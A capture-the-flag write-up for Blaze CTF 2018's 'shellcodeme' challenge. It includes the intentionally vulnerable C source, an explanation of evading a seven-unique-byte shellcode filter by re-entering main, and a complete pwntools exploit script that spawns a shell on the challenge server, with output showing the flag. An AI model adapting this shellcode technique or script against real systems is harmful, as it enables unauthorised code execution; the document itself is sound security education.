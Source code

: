 [](ctf=blaze-2018)
[](type=exploit)
[](tags=game)
[](techniques=shellcode)

# shellcodeme (pwn-420)

```
Can you please smoke this?

nc shellcodeme.420blaze.in 420

Author : aweinstock

Solves : ~60
```

This challenge had a hard version too. The way I exploited this chall worked in the hard one too. So 2 flags for the work of one.
Source code was provided.

```c
// gcc -zexecstack -Os shellcodeme.c -o shellcodeme
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define BUF_SIZE (0x4096 & ~(getpagesize()-1))

int main() {
    setbuf(stdout, NULL);
    unsigned char seen[257], *p, *buf;
    void (*f)(void);
    memset(seen, 0, sizeof seen);
    buf = mmap(0, BUF_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Shellcode?");
    fgets(buf, BUF_SIZE, stdin);
    fflush(stdin);
    for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
    if(seen[256] > 7) {
        puts("Shellcode too diverse.");
        _exit(1);
    } else {
        *(void**)(&f) = (void*)buf;
        f();
        _exit(0);
    }
}
```


4 rwx pages are mmaped on which we can copy our input(0x4000). The only catch is the shellcode can't contain more than 7 unique bytes.

```c
for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
```

This code iterates through each input byte and sums up the number of unique bytes in the shellcode. The `seen` table is very important for my strategy of exploitation.

![jmp](jmp.png)

At `0x40072d` the control is transferred to rbp using a `call`. I first tried to look at the context on that state and then use the registers to make a read `syscall` on an rwx page in the libc. However with the restriction in place I could not successfully jump to the page.

The next thought I had was to restart the execution of main such that we can bypass the check in place.

![exp](exp.png)

As I noticed that `memset` operation is done on `0x400699`, once the `seen` table has initialized we can skip doing it again in the second run. Jumping to anywhere after the memset operation should work. If we are able to corrupt the 256 byte count table in a way that unique count calculated is in our control then that would let us run arbirary code in the next run. So in the first run we can execute 'push' to setup the stack in such a way that seen[256] is overflowed back to < 7 in the next run.

Here's how I did it in 7 unique bytes:

* `pop` the saved rip from the stack to a register(rbx) (+1 unique byte)
* `dec` the 32bit variant of that register to make it 0x4006d2  (+2 unique bytes)
* spray the stack by `push`ing the register to setup an already filled `seen`  (+1 unique bytes)
* `inc rsp` to align `seen[256]` with 0xd2. will overflow this in the next run  (+2 unique bytes)
* `ret` to get input again to the same page  (+1 unique bytes)
* input a shellcode such that seen[256] is overflowed back to 0


```
from pwn import *

context(arch='amd64', os='linux', log_level='info')

payload = asm("pop rbx; "+("dec rbx; "*(0x72f-0x6d2))+("push rbx; "*64)+"inc rsp; jmp rbx")
payload2 = asm(shellcraft.amd64.linux.sh())+"".join(map(chr, range(100,157)))

s = remote("shellcodeme.420blaze.in",420)
raw_input()

s.sendline(payload)
s.sendline(payload2)

s.interactive()
s.close()
```


Output
```bash
$ python shellcodeme.py 
[+] Opening connection to shellcodeme.420blaze.in on port 420: Done

[*] Switching to interactive mode
Shellcode?
$ id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
$ cat flag
blaze{g0lf3d_y0ur_sh3llc0d3's_un1qu3_byt3z}
$ 
[*] Closed connection to shellcodeme.420blaze.in port 420
```
